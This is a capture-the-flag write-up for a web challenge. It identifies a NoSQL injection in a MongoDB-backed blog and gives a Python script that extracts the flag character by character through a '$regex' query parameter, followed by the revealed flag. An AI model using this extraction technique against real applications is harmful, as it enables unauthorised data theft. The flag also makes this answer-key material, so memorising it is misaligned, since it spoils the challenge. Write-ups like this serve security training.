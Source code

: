 #### Challenge:

Hi Expert,

some kind of blogging application remains unfinished on `http://78.128.216.18:65180`, but it can contain some information about end of the civilization. Get the content of all entries. 

Good Luck

---

#### Solution:

- inspecting the web site reveals that queries are passed to `MongoDB` thus `NOSQL-injection` is the best candidate

```python
import requests
import string
import urllib.parse

ses = requests.session()

flag = "FLAG{"
print(flag, flush=True, end='')
r = ses.get(
    'http://78.128.216.18:65180/view?title[$regex]='+urllib.parse.quote(flag))
while "}" not in flag:
    for char in list(string.ascii_lowercase+string.ascii_uppercase+string.digits+"-"+"}"):
        print(char, flush=True, end='')
        r = ses.get(
            'http://78.128.216.18:65180/view?title[$regex]='+urllib.parse.quote(flag+char))

        if "flag" in str(r.content):
            flag = flag + char
            break
        else:
            print('\b', flush=True, end='')

print()
```

---

<details><summary>FLAG:</summary>

```
FLAG{LWbF-QzFv-xyCt-mkUE}
```

</details>
<br/>

